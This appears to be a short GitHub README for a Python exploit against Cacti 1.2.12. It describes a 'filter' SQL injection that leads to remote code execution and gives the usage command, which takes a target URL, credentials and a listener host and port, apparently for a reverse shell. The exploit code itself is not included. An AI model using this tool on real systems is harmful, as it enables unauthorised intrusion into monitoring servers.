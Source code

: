 # Project Title

Cacti 1.2.12 - 'filter' SQL Injection / Remote Code Execution 

## Description

Remote Code Exectuion of Cacti using Python

### Executing program

* Using python3
```
python3 cacti.py -t http://exploitcacti.blah -u username -p password --lhost 10.10.10.1 --lport 1337
```

## Help

Help prompt
```
python3 cacti.py -h
```


